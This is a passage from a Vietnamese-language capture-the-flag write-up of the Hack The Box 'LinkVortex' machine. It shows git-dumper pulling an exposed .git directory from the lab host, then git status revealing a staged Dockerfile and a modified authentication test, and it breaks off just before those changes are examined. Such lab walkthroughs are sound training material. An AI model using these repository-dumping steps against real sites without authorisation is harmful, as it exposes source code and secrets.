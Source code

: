 ```bash
[root@vunv-redteam-sb.dev.virt:~/redteam/ctf/linkvortex]# git-dumper http://dev.linkvortex.htb/.git/ so
urces/
[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
...
Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.pack [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 5596 paths from the index
```

Sau khi dump về tôi nhận được source code của website, **đến bước này tôi nghĩ mọi chuyện đang dần sáng tỏ.**

```bash
[root@vunv-redteam-sb.dev.virt:~/redteam/ctf/linkvortex]# cd sources/
[root@vunv-redteam-sb.dev.virt:~/redteam/ctf/linkvortex/sources]# ls
Dockerfile.ghost  PRIVACY.md  SECURITY.md  ghost    package.json
LICENSE           README.md   apps         nx.json  yarn.lock
...
```

Kiểm tra một vài thay đổi của repo bằng vài command như git log hay git status thì tôi nhận được vài điều hay ho:

```bash
[root@vunv-redteam-sb.dev.virt:~/redteam/ctf/linkvortex/sources]# git status 
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   Dockerfile.ghost
        modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

Có 2 file đã được thay đổi ở đây, hãy xem chúng đã thay đổi những gì:
